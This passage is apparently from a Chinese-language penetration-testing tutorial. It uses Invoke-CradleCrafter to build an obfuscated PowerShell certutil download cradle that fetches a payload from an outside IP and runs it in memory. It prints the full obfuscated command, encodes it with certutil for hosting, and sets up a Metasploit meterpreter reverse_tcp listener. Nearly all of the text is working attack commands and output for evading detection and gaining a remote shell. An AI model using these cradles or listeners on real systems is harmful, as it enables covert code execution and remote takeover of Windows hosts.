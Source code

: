 ```bash
Invoke-CradleCrafter\Memory> CERTUTIL

[*] Name          :: Certutil
[*] Description   :: PowerShell leveraging certutil.exe to download payload as string
[*] Compatibility :: PS 2.0+
[*] Dependencies  :: Certutil.exe
[*] Footprint     :: Entirely memory-based
[*] Indicators    :: powershell.exe spawns certutil.exe certutil.exe 
[*] Artifacts     :: C:\Windows\Prefetch\CERTUTIL.EXE-********.pf AppCompat Cache

Invoke-CradleCrafter\Memory\Certutil> ALL


Choose one of the below Memory\Certutil\All options to APPLY to current cradle:

[*] MEMORY\CERTUTIL\ALL\1       Execute ALL Token obfuscation techniques (random order)
```

到这里应该会显示如下代码

```bash
Invoke-CradleCrafter\Memory\Certutil\All> 1

Executed:
  CLI:  Memory\Certutil\All\1
  FULL: Out-Cradle -Url 'http://172.20.10.4/key.txt' -Cradle 17 -TokenArray @('All',1)

Result:
SV 1O6 'http://172.20.10.4/key.txt';.(Get-Command *ke-*pr*) ((C:\Windows\System32\certutil /ping (Get-Item Variable:\1O6).Value|&(Get-Variable Ex*xt).Value.InvokeCommand.(((Get-Variable Ex*xt).Value.InvokeCommand.PsObject.Methods|?{(Get-Variable _ -ValueOn).Name-ilike'*and'}).Name).Invoke((Get-Variable Ex*xt).Value.InvokeCommand.(((Get-Variable Ex*xt).Value.InvokeCommand|GM|?{(Get-Variable _ -ValueOn).Name-ilike'*Com*e'}).Name).Invoke('*el*-O*',$TRUE,1),[Management.Automation.CommandTypes]::Cmdlet)-Skip 2|&(Get-Variable Ex*xt).Value.InvokeCommand.(((Get-Variable Ex*xt).Value.InvokeCommand.PsObject.Methods|?{(Get-Variable _ -ValueOn).Name-ilike'*and'}).Name).Invoke((Get-Variable Ex*xt).Value.InvokeCommand.(((Get-Variable Ex*xt).Value.InvokeCommand|GM|?{(Get-Variable _ -ValueOn).Name-ilike'*Com*e'}).Name).Invoke('*el*-O*',$TRUE,1),[Management.Automation.CommandTypes]::Cmdlet)-SkipLa 1)-Join"`r`n")

Choose one of the below Memory\Certutil\All options to APPLY to current cradle:

[*] MEMORY\CERTUTIL\ALL\1       Execute ALL Token obfuscation techniques (random order)
```

将混淆的代码保存到本地为`crt.txt`用`certutil`进行`encode`加密

```bash
certutil -encode crt.txt crt.cer
```

将`cer.cet`放入 http 服务器目录下，使用 msf 开启监听

```bash
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.10.11
lhost => 192.168.10.11
msf6 exploit(multi/handler) > set lport 8888
lport => 8888
msf6 exploit(multi/handler) > run
```
